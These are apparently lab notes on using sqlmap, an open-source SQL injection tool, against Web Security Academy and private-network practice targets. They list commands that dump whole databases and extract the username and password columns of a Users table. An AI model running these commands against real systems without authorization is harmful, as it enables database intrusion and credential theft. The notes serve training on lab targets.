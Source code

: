 # sqlmap

![](assets/16511985745005.png)

## What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.


## How to use


### Show all Content & Tables without User Interaction

`sqlmap --tables --dump-all --batch -u https://ac021f111ea96192c01c0d2f00b200a8.web-security-academy.net/filter?category=Gifts`

**Plus level 5 & risk 3 & threads 5**
`sqlmap --tables --dump-all --batch --level 5 --risk 3 --threads 5 -u https://ac021f111ea96192c01c0d2f00b200a8.web-security-academy.net/filter?category=Gifts`


### Query URL with sqlmap

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3`
  
![Screenshot 2022-04-02 at 11.14.50](assets/Screenshot%202022-04-02%20at%2011.14.50.png)

### List Databases

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 --tables`

![Screenshot 2022-04-02 at 11.47.42](assets/Screenshot%202022-04-02%20at%2011.47.42.png)


### Show Table Structure of Users

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 -T Users --columns`

![Screenshot 2022-04-02 at 13.00.00](assets/Screenshot%202022-04-02%20at%2013.00.00.png)


### Output ‘password’ column in table ‘Users’ 



![Screenshot 2022-04-02 at 13.02.13](assets/Screenshot%202022-04-02%20at%2013.02.13.png)


### Output ‘username’ column in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users -C username --dump`

![Table Users](assets/Table%20Users.png)


### Output all  columns in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users --dump`

![dsdefaultAdnin](assets/dsdefaultAdnin.png)
